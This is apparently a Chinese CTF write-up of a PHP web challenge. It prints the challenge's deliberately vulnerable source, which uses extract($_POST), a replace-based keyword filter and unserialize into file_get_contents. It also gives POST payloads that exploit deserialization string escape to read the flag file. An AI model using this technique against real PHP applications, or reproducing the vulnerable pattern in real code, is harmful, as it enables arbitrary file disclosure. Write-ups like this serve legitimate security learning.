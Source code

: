 ![[Pasted image 20221119110645.png]]

---
首页长这样
![[Pasted image 20221119110705.png]]

---
点开之后是源码
```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

---
提示我们可能能在`phpinfo`中找到好东西
```php
/?f=phpinfo
```

![[Pasted image 20221119113417.png]]
果不其然发现了存放`flag`的文件名`

---
考虑到`filter`函数作用于序列化后的字符串
总体思路就是利用反序列化字符串逃逸使得`$userinfo['img']`结果为`base64_encode('d0g3_f1ag.php')`

部署到本地再加了两句
![[Pasted image 20221119212823.png]]
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:3:"abc";}
```
不得不吐槽php这语言各方面都好宽松QwQ
![[Pasted image 20221119212806.png]]

---
放靶机上跑去

url
```php
/?f=show_image
```
POST
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```
![[Pasted image 20221119213410.png]]
再来一步
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
![[Pasted image 20221119213746.png]]
#Web #PHP #反序列化 #字符串逃逸